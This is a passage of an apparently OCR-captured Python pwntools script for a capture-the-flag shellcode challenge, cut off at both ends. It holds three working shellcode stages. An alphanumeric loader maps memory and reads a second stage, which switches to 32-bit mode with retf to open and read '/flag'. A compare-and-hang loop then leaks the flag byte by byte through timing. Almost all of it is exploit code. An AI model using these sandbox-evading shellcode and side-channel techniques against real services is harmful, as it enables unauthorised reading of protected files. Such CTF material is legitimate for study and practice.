```python
        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-4
        ret 
    '''.format(a,b)
    # shellcode1 = toPrintable(shellcode1)
    # shellcode2 = asm(shellcode2,arch='amd64')
    # shellcode3 = asm(shellcode3,arch='amd64')
	# print "".join("\\x%02x"%ord(_) for _ in asm(shellcode,arch='amd64'))
    shellcode1 = "Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M144x8n0R094y4l0p0S0x188K055M4z0x0A3r054q4z0q2H0p0z402Z002l8K4X00"
    shellcode2 = "\x48\xc7\xc7\x00\x00\x00\x40\x48\xc7\xc6\x00\x10\x00\x00\x48\xc7\xc2\x07\x00\x00\x00\x49\xc7\xc2\x22\x00\x00\x00\x49\xb8\xff\xff\xff\xff\x00\x00\x00\x00\x4d\x31\xc9\x48\xc7\xc0\x09\x00\x00\x00\x0f\x05\x48\x89\xfe\x48\x31\xff\x48\xc7\xc2\x00\x10\x00\x00\x48\x31\xc0\x0f\x05\xff\xe6"
    shellcode3 = "\x49\xba\x00\x00\x00\x00\x23\x00\x00\x00\x48\x83\xc6\x13\x4c\x01\xd6\x56\xcb\xbc\x00\x04\x00\x40\x6a\x67\x68\x2f\x66\x6c\x61\x89\xe3\x31\xc9\xba\x07\x00\x00\x00\xb8\x05\x00\x00\x00\xcd\x80\x6a\x33\x68\x37\x00\x00\x40\xcb\x48\x89\xc7\x48\xc7\xc6\x00\x05\x00\x40\x48\xc7\xc2\x80\x00\x00\x00\x48\x31\xc0\x0f\x05\x6a\x00"
    shellcode3 += asm('cmp byte ptr[rsi+{0}],{1};jz $-3;ret'.format(a,b) if a == 0 else 'cmp byte ptr[rsi+{0}],{1};jz $-4;ret'.format(a,b),arch='amd64')
    p.sendline(shellcode1)
    p.sendline(shellcode2)
    # raw_input()
    p.sendline(shellcode3)
    try:
        p.recv(timeout = 2)
    except:
        p.close()
        return 0
    else:
        return 1
def main():
    flag = [" " for _ in range(0x30)]
    for i in range(0,100):
        # for char in "{}1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        for char in range(0x20,0x7e+1):
            # char = ord(char)
            p = process("./shellcode")
```